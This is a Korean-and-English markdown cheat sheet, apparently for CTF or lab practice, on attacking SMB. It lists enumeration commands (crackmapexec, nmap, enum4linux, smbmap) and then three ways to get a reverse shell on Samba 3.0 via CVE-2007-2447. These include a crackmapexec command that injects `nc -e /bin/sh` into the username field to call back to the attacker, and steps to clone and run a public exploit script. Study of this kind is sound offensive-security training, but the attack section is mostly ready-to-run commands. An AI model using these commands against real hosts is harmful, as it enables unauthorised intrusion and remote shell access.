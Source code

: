 SMB
#
## 1. Recon

`crackmapexec`
```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
```
![image](https://user-images.githubusercontent.com/61821641/152250555-5266158b-ac0b-4b69-a2bf-8c196d48b077.png)
#
`nmap`
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.3
```
![image](https://user-images.githubusercontent.com/61821641/152250787-8d6e1948-4e57-4c26-a269-7f4799f20d70.png)
#
`enum4linux` --SMB 공유를 열거
```
enum4linux <option> ip
```
options

**TAG**            **FUNCTION**

\-U             get userlist  
\-M             get machine list  
\-N             get namelist dump (different from -U and-M)  
\-S             get sharelist  
\-P             get password policy information  
\-G             get group and member list

\-a             위의 모든 것(전체 기본 열거)

![image](https://user-images.githubusercontent.com/61821641/152262411-343389d4-7b2a-4bc2-ae32-02dd91ba816d.png)
![image](https://user-images.githubusercontent.com/61821641/152262564-11c48e44-4a4a-4741-99bd-f36da66c23d3.png)
![image](https://user-images.githubusercontent.com/61821641/152262280-4726a649-9081-4023-9552-57a65bf697c7.png)
![image](https://user-images.githubusercontent.com/61821641/152262476-631087c9-f841-41cb-a2f9-7127a95d7bc7.png)
![image](https://user-images.githubusercontent.com/61821641/152262522-ae1d8656-ffe6-4a79-b0f0-58880244560e.png)
#
`smbmap`

```
smbmap -H 10.10.10.3
```
![image](https://user-images.githubusercontent.com/61821641/152289995-1adb1396-c28d-4f2c-8f31-84b340e9c7ed.png)
#
## 2. Reverse shell

```
searchsploit samba 3.0
```
![image](https://user-images.githubusercontent.com/61821641/152251312-176345ec-e2a7-4c7c-8651-6bf2ec998bf4.png)

```
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb
```

![image](https://user-images.githubusercontent.com/61821641/152253552-4cabe63e-d45f-4b1d-a136-95541e369e3d.png)

![image](https://user-images.githubusercontent.com/61821641/152253655-97482bce-b39d-4c5c-bdd8-89f18a30332e.png)

위의 익스플로잇으로 리버스 셸 따기

첫번째 방법 `crackmapexec`
```
crackmapexec smb --shares <RHOST> -u './=`nohup nc -e /bin/sh <LHOST> <LPORT>`' -p ''
```


두번째 방법 [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

`setup`
```
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
cd CVE-2007-2447
```

```
python3 usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

세번째 방법 `metasploit`

![image](https://user-images.githubusercontent.com/61821641/152263387-2799f21b-491c-4ba0-9a28-3761787a6ec6.png)
![image](https://user-images.githubusercontent.com/61821641/152263486-f487bd28-e61b-491d-9bd1-3d34bcfeef81.png)
![image](https://user-images.githubusercontent.com/61821641/152263535-78b93c30-99a0-4bd8-b514-63a107fe6845.png)

#
## 3. Exploit

- [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
- [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)
#
